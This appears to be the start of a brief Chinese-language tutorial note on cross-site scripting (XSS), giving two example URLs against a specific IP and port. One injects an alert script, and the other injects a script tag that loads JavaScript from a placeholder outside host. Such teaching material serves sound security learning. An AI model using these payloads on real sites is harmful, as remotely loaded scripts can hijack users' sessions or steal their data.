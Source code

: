 # 1.XSS跨站脚本攻击

标签： Cross Site Scripting

----

**Contents**

- [XSS跨站脚本攻击](#XSS跨站脚本攻击)
    - [XSS跨站脚本攻击初步认识](#XSS跨站脚本攻击初步认识)


----



## XSS跨站脚本攻击初步认识
###1.XSS例子

```url
1.http://120.78.72.189:9999/from=<script>alert("hello xss")</script>
2.http://120.78.72.189:9999/from=<script src="http://xxx.com/xx.js">alert("hello xss")</script>
```			
	


